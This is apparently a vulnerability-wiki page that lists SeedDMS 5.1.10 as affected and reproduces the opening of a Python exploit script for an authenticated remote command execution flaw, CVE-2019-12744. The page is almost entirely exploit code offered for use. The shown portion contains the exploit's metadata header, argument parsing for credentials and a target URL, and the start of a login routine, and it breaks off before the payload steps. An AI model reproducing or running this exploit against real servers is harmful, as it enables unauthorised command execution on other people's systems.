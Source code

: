 <languages /> <translate>

影響版本
--------

</translate> Version: Seeddms 5.1.10

EXP
---

    # Exploit Title: Seeddms 5.1.10 - Remote Command Execution (RCE) (Authenticated)
    # Date: 25/06/2021
    # Exploit Author: Bryan Leong <NobodyAtall>
    # Vendor Homepage: https://www.seeddms.org/index.php?id=2
    # Software Link: https://sourceforge.net/projects/seeddms/files/seeddms-5.0.11/
    # Version: Seeddms 5.1.10
    # Tested on: Windows 7 x64
    # CVE: CVE-2019-12744

    import requests
    import argparse
    import sys
    import random
    import string
    from bs4 import BeautifulSoup
    from requests_toolbelt import MultipartEncoder

    def sysArgument():
        ap = argparse.ArgumentParser()

        ap.add_argument("-u", "--username", required=True, help="login username")
        ap.add_argument("-p", "--password", required=True, help="login password")
        ap.add_argument("--url", required=True, help="target URL Path")

        args = vars(ap.parse_args())

        return args['username'], args['password'], args['url']

    def login(sessionObj, username, password, url):
        loginPath = "/op/op.Login.php"
        url += loginPath
